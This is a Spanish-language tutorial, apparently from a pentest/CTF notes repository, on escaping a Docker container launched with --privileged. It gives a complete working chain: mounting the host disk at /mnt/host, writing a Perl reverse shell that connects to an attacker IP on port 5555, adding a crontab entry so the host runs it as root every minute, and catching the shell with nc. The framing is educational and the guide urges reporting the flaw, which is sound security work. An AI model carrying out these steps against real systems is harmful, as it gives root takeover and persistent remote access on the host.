 # 🐳 Docker Container Escape con `--privileged`

---

## Contexto

En un pentest o CTF podemos toparnos con contenedores Docker mal configurados. Un error muy común es ejecutarlos con la opción `--privileged`, que básicamente **le da al contenedor el control casi completo sobre el host**.

Esto rompe el aislamiento que se espera de Docker. Desde dentro del contenedor se pueden ver y manipular dispositivos del host que normalmente deberían estar ocultos, como `/dev/sda` (discos duros reales del sistema).

Si logramos montar una partición del host desde dentro del contenedor, ya tenemos acceso directo al **sistema de archivos del host** y, con algo de imaginación, podemos **escalar fuera del contenedor y obtener root en la máquina física**.

---

## Identificación del problema

1. **Comprobar los dispositivos disponibles en el contenedor:**

   ```bash
   ls /dev/ | grep sda
   ```

   Si aparecen particiones (`sda`, `sda1`, `sda2`, etc.), es una bandera roja: el contenedor está viendo discos del host.

2. **¿Por qué ocurre esto?**

   * `--privileged` expone casi todos los dispositivos del host al contenedor.
   * En condiciones normales, un contenedor no debería ver discos físicos reales.
   * Este error abre la puerta a montar el FS del host y manipularlo.

---

## Montaje del host

Creamos un directorio dentro del contenedor para montar la partición:

```bash
mkdir /mnt/host
mount /dev/sda2 /mnt/host
```

Ahora `/mnt/host` contiene el **sistema de archivos del host real**. Aquí ya tenemos acceso a todo: `/etc/`, `/root/`, `/home/`, `/var/log/`…

⚠️ Esto significa que podemos **leer y escribir directamente en el host**. Cualquier cambio que hagamos aquí afecta al host, no al contenedor.

---

## Escape y shell en el host

Una técnica sencilla para salir del contenedor es **forzar al host a ejecutar un script que nos dé una reverse shell**.

### 1. Crear el script en el host montado

Guardamos un reverse shell en `/mnt/host/tmp/reverse.sh`:

```bash
#!/bin/bash
perl -e 'use Socket;$i="10.10.14.6";$p=5555;
  socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));
  if(connect(S,sockaddr_in($p,inet_aton($i)))){
    open(STDIN,">&S");
    open(STDOUT,">&S");
    open(STDERR,">&S");
    exec("sh -i");
  };'
```

Le damos permisos:

```bash
chmod +x /mnt/host/tmp/reverse.sh
```

### 2. Hacer que el host lo ejecute

Existen varias formas de obligar al host a ejecutar este script. Una de las más simples es **editar el crontab del host** (el que está montado en `/mnt/host/etc/crontab`) y añadir una línea como:

```bash
* * * * * root /tmp/reverse.sh
```

De esta forma, cada minuto el host ejecutará nuestro script como **root**.

### 3. Ponerse a la escucha

En nuestra máquina atacante:

```bash
nc -lvnp 5555
```

En cuanto el cron ejecute el script, recibiremos una **reverse shell como root en el host** (fuera del contenedor).

---

## Explicación paso a paso

* **Ver `/dev/sda` dentro de un contenedor** → confirmación de que está mal configurado con `--privileged`.
* **Montar `/dev/sda2`** → obtenemos acceso directo al sistema de archivos real del host.
* **Crear un reverse shell en `/mnt/host/tmp/`** → el script realmente se guarda en `/tmp/` del host.
* **Modificar `/mnt/host/etc/crontab`** → estamos alterando la configuración de tareas programadas del host, no del contenedor.
* **Ponerse en escucha** → cuando cron ejecute nuestro script, conseguimos shell como root en el host.

---

## Notas importantes

* El flag `--privileged` es **peligrosísimo**: elimina el aislamiento y convierte al contenedor en una especie de proceso privilegiado con visibilidad total del host.
* Ver discos (`/dev/sda`) dentro de un contenedor siempre es mala señal.
* Montar y modificar el FS del host permite desde **leer credenciales** hasta **inyectar binarios, llaves SSH o shells**.
* Este vector equivale a un **Container Escape → Host Takeover**.

---

## Resumen

1. Acceso inicial: contenedor con `--privileged`.
2. Identificación: `/dev/sda` visible.
3. Montaje: `mount /dev/sda2 /mnt/host`.
4. Persistencia/escape: escribir reverse shell en `/mnt/host/tmp/`.
5. Ejecución: modificar `/mnt/host/etc/crontab`.
6. Resultado: **root en el host**.

👉 En un pentest real, esto debe reportarse como una **vulnerabilidad crítica**: el aislamiento de contenedores queda roto y el atacante puede comprometer completamente el host físico.

